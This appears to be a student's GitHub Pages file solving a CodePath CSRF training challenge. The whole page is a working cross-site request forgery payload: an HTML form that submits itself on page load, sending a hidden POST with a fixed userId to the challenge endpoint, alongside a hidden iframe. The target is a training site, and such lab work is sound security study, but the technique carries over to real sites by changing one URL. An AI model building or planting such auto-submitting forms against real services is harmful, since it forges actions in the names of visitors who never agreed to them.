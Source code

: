 # JLPlummer79.github.io
<html>
  <body onload="document.csrfform.submit()">
    <form name="csrfform" action="http://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="4b8f83b681b706eb2acff708611625dd6a9069cc"/>
      <input type="submit"/>
    </form>
    <iframe name="hidden_results" style="display: none;">  </iframe>
  </body>
</html>

